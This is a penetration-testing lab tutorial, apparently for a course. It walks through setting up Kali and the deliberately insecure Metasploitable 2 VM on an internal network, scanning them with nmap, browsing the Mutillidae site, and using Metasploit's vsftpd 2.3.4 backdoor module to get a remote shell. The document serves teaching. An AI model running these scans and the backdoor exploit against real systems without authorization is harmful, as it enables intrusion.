





= Metasploitable Basic Use

Metasploitable is a Linux distrubtion that is intentionally insecure. It is an ideal platform for learning basic penetration testing skills. In this lab, you will use Kali Linux to probe Metasploitable for weaknesses.

== Prerequisites

* VirtualBox Installed
* Kali VM created
* Metasploitable 2 VM created

See previous instructions if you need to create the Kali or Metasploitable virtual machines.

== Metasploitable IP Configuration

1. Start the Metasploitable VM from VirtualBox. If you need to login, use `msfadmin` for the username and password.
2. The IP address should be 192.168.2.50.
3. Run `ifconfig` to check the IP address. If it needs to be set, run the following command.
+
```
sudo ifconfig eth0 192.168.2.50
```
+
Enter the password `msfadmin` when prompted.

== Kali IP Configuration

1. Start the Kali VM from VirtualBox.
2. The IP address should be 192.168.2.10.
3. Run `ifconfig` in a terminal to check the IP address. If it needs to be set, run the following command.
+
```
ifconfig eth0 192.168.2.10
```
+
Note that by default, Kali runs terminals as the root user, so there is no need to add `sudo` to the command.

4. Do a test ping to ensure that the Metasploitable and Kali virtual machines can connect.
+
```
ping 192.168.2.50
```

5. The pings should be successful. If the pings are not successful, check the following settings:
  * Ensure that the network adapters are set to "Internal Network" in the VirtualBox manager.
  * Ensure that the IP addresses are correct.
  * Ensure that the subnet masks are 255.255.255.0.

== Probe Metasploitable from Kali

Nmap is a port scanning tool. From the Kali, run the following command to do a scan of the Metasploitable ports.

```
nmap 192.168.2.50
```

You should see many ports are open. The following screenshot shows a partial output of the nmap output.



Many services are running that could be exploited by an attacker. It would be unusual to have an actual system running with this many open services.

== Browse Mutillidae

Mutillidae is a website built with several weaknesses.

1. In Kali, open Iceweasel.

2. Open the URL `http://192.168.2.50/mutillidae`.
+
NOTE: If you have used the Burp suite recently, you may get a message saying, "Iceweasel is configured to use a proxy server that is refusing connections. You can either star the Burp suite, or change the Iceweasel proxy settings.
+
To revert the proxy settings in Iceweasel, click Settings > Preferences > Advanced > Network> Connection Settings. Check the box for `No proxy`. Reload the page in Iceweasel and you should see the website.
+


3. There are other websites that can be exploited. You can view them in two ways. First, go to `http://192.168.2.50/` to see an index. Second, you can run the following commands in the Metasploitable terminal to see a directory listing of the files being served by the web server.
+
```
cd /var/www
ls
```

== Exploit a Backdoor

Metasploitable runs the FTP server vsftpd. The version of vsftpd contains a backdoor that somebody introduced to the code. The backdoor was fixed in the code, but anybody who deployed the vulnerable version could be open to attack as long as they had the backdoor running on their system.

1. In Kali, open a terminal. Run the following command to open the Metasploit Framework Console.
+
```
msfconsole
```

2. It will take a moment to start up. You will be presented with a prompt.
+
```
msf >
```

3. Use tab completion to type the following command.
+
```
msf > use exploit/unix/ftp/vsftpd_234_backdoor
```

4. Run `show options` to see what should be specified.
+


5. If you have have not set the RHOST, the value will be empty. The fault for RPORT will be 21. Run the following command to set the remote host that will be exploited.
+
```
set RHOST 192.168.2.50
```

6. Run `exploit` to execute the backdoor exploit. You should see output similar to the following.
+


7. Run the following command to verify that the output matches the directory structure you examined earlier.
+
```
ls /var/www
```
+
image::backdoor-ls.png[]

8. Run the following command to determine what user you are running the commands as.
+
```
whoami
```
+
What user are you running as? What could you now do on this system?

9. Run `exit` to close the connection with the remote system.
+

